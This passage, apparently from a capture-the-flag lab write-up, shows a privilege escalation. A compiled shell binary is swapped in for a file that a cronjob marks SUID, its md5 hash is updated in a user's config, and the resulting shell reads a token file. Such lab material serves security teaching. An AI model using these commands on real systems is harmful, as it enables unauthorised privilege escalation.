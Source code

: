```bash
vim shell.c #write shell code
gcc -o shell shell.c #compile
chmod +x shell #ensure file is executable
mv shell template_diagtool #rename the file so that it is picked up by the cronjob
md5sum template_diagtool #returns the new md5sum that will need to replaced the contents of /home/adonis_it_brian/.devcheckconfig
```

Replace the md5 hash in  ``/home/adonis_it_brian/.devcheckconfig`` with the updated hash and wait for the ``cronjob`` to execute. We can monitor success of the SUID being set via the output of the ``/home/adonis_it_brian/logs/suidupdate.log``

![image showing output from commands above](./img/12.PNG)

Once the file in ``/tmp/diagtool`` is successfully updated, execute the binary to spawn an interactive shell as ``adonis_it_brian`` and read the contents of ``token1.txt``

![image showing directory listing](./img/13.PNG)
